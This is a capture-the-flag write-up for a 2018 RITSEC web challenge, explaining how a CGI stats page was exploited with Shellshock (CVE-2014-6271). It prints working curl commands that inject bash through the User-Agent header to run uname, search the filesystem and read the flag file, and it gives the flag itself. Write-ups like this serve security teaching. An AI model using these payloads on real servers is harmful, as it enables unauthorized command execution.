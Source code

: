 # What a cute dog ! - Web challenge (350 points)

Another web challenge with URL: http://fun.ritsec.club:8008/.
Upon opening the given URL, we see a **shockingly** cute dog ! And some stats: *Mon Nov 19 11:06:51 UTC 2018
11:06:51 up 2 days, 18:54, 0 users, load average: 0.00, 0.00, 0.03* . 

Inspecting the source we see an interesting link: http://fun.ritsec.club:8008/cgi-bin/stats.
Googling this, we found an exploit for *stats*. And guess what, it is a shellshock exploit (*_CVE 2014-6271_*).
We are going to use this command for finding the flag: **_curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'uname -a;'" http://fun.ritsec.club:8008/cgi-bin/stats_**

After some time for searching the flag, i remember that flag is always named like *flag.txt*. So I ran this command in terminal to get the exact location of a flag:

*_curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'find / -name flag.txt;'" http://fun.ritsec.club:8008/cgi-bin/stats_*

flag.txt was found in **/opt/** folder. The final step we needed to take was to read the flag. 
*_curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /opt/flag.txt;'" http://fun.ritsec.club:8008/cgi-bin/stats_*

We got response with a flag: **RITSEC{sh3ll_sh0cked_w0wz3rs}**

